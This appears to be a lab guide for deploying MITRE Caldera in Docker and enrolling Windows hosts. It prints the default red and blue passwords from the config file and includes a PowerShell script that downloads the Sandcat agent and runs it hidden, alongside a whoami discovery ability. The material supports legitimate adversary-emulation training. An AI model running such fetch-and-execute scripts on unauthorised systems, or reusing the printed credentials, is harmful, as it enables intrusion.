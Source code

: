 Command to launch the Caldera container and 'detach' to leave it running as a background process.

```sh
ubuntu@ar-linux:/opt/caldera$ sudo docker run -d --name=caldera -p 7010:7010 -p 7011:7011/udp -p 7012:7012 -p 8888:8888 caldera:server
```

Commands to spawn an interactive shell in the Caldera container and read the 'red' user default password.

```sh
ubuntu@ar-linux:/opt/caldera$ sudo docker exec -it caldera /bin/bash
root@e1a9473f9ca6:/usr/src/app# cat conf/local.yml

--snip--
users:
  blue:
    blue: z9yB8XthMOgaDiTChu7yXZ4sAdnJfJXwo9a_wo67hpY
  red:
    red: TxdlgzoC-0ZxnDTFYlUO_7UM3eEB1TecjYt3F43s2UY
```

##### Remotely Connecting to Endpoints

The PowerShell script used to connect hosts to the Caldera server by downloading and launching a Sandcat agent.

```powershell
$server="http://10.0.1.21:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\agpt.exe"} | stop-process -f;
rm -force "C:\Users\Public\agpt.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\agpt.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\agpt.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

##### Selecting Abilities

The YAML definition of the <i>Identify active user</i> ability:

```yaml
---

- id: c0da588f-79f0-4263-8998-7496b1a40596
  name: Identify active user
  description: Find user running agent
  tactic: discovery
  technique:
    attack_id: T1033
    name: System Owner/User Discovery
  platforms:
    darwin:
      sh:
        command: whoami
        parsers:
          plugins.stockpile.app.parsers.basic:
            - source: host.user.name
            - source: domain.user.name
    linux:
      sh:
        command: whoami
        parsers:
          plugins.stockpile.app.parsers.basic:
```